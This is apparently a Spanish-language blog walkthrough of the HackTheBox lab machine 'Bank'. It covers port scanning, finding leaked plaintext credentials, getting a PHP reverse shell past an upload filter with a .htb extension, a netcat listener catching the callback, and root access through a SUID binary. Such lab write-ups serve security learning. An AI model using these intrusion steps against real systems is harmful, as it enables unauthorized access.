 ```yaml
---
layout      : post
title       : "Bank - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Bank-HackTheBox/Bank.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!

![](/assets/images/HTB/Bank-HackTheBox/rating-bank.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Reverse Shell](#rev-shell).     
4. [Escalada de Privilegios](#privesc). 
    * [Emergency](#emergency).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```

Escaneamos servicios y las versiones de los mismos.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aquí tenemos un servidor web en el puerto 80 (http), el puerto 53 (DNS) y el puerto 22 (ssh).

Añadimos al archivo host la ip y el dominio bank.htb

Procedo a enumerar el servidor web

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Encontramos un login para acceder pero no tenemos credenciales, asique me pongo a enumerar rutas en el servidor para ver que tenemos.

![](/assets/images/HTB/Bank-HackTheBox/web1.png)

Para enumerar las rutas uso gobuster

![](/assets/images/HTB/Bank-HackTheBox/gobuster.png)

Encuentro la ruta balance-transfer y dentro de ella una lista bastante grande con archivos.

![](/assets/images/HTB/Bank-HackTheBox/web2.png)

Abro uno de ellos aleatoriamente

![](/assets/images/HTB/Bank-HackTheBox/data1.png)

Parece que la data está encriptada, pero tras probar y probar y no consigo desencriptarla.

Sigo buscando en la lista de archivos y me fijo en el tamaño de cada uno, suelen rondar entre los 582 y 585 el tamaño de los archivos, asique buscando encuentro uno de ellos que tiene de tamaño 257.

![](/assets/images/HTB/Bank-HackTheBox/web3.png)

Al abrirlo encuentro unas credenciales en texto plano.

![](/assets/images/HTB/Bank-HackTheBox/data2.png)

Usaré las credenciales para iniciar sesión en el panel web.

Una vez dentro encontramos un panel con todas las transacciones y datos bancarios.

![](/assets/images/HTB/Bank-HackTheBox/web4.png)

# Explotación [#](explotacion) {#explotacion}

----

## Reverse Shell [🔥](#rev-shell) {#rev-shell}

Navegando por la web me dirijo a Support y encuentro una formulario donde puedo subir un archivo.

![](/assets/images/HTB/Bank-HackTheBox/web5.png)

Tras ver eso creo un archivo con una reverse shell en php de la siguiente fuente:

[https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Edito la ip y el puerto.

Una vez lista la reverse shell la subo al servidor.

![](/assets/images/HTB/Bank-HackTheBox/errorweb.png)

Pero me arroja ese error, solo se pueden subir imágenes al servidor.

Tras probar a editar el content-type en Burpsuite para bypassear la restricción no tengo éxito asique procedo a analizar el código del support.php donde encuentro el siguiente comentario:

> "[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]" 

Si cambiamos la extensión de .php a .htb podemos ejecutar los archivos php.

Subimos el archivo y listo:

![](/assets/images/HTB/Bank-HackTheBox/web6.png)

Ahora nos abrimos un listener netcat en el puerto configurado en la rev shell

`nc -lnvp 1234`

Ejecutamos el archivo desde el panel web y tenemos la conexión inversa.

```shell
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 48610
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 00:27:22 up  1:08,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Una vez dentro ya podemos leer el user.txt

Ahora toca escalar privilegios


# Escalada de Privilegios [#](privesc) {#privesc}

----

## Emergency [🚑](emergency) {#emergency}

Busco binarios SUID de propietarios root con el comando find 

```bash
www-data@bank:/home/chris$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
Tenemos el binario emergency

Asique pruebo a ejecutarlo para ver que sucede o que he de hacer...

```bash
www-data@bank:/home/chris$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami 
root
```

Lo ejecuto y para mi sorpresa ya soy root!!!

![](/assets/images/HTB/Bank-HackTheBox/dollar.gif)

